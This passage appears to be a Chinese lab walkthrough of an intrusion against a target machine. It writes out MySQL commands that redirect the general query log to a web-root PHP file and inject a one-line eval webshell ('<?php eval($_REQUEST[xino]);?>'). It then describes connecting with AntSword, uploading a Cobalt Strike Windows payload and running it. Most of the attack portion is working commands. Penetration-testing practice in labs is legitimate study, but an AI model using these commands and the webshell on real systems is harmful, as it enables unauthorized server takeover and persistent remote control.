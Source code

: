 首先判断secure\_file\_priv是否为空

sql

 代码解读

复制代码

`show variables like '%secure%'`

![图片.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b8b04c763bdc42a8a4517b1bcc73a611~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

查询日志保存状态

sql

 代码解读

复制代码

`show variables like '%general%'`

![图片.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c6789f5508f04ff69c1dccb2d340f735~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

开启全局日志并修改日志保存位置为C:/phpStudy/WWW/hack.php

ini

 代码解读

复制代码

`set global general_log=on; set global general_log_file='C:/phpStudy/WWW/hack.php';`

![图片.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/e40b811d10f942a89e28d4c9a3fbf51a~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

执行sql查询语句并在里面包含一句话木马，一句话木马将写入到日志文件hack.php中

ini

 代码解读

复制代码

`Select '<?php eval($_REQUEST[xino]);?>'`

蚁剑连接成功。

![Inkedimage.jpg](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/1e0c547cf50b433c9eb0b91969c84935~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

主机上线cs
------

靶机为windows系统，因此用cs生成一个windows可执行木马。

![图片.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/64bcc91687f54ed5bf0dc4ad94a2a674~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

使用蚁剑上传并执行

![图片.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/3255a1f909064c82992d293bbea02de6~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)
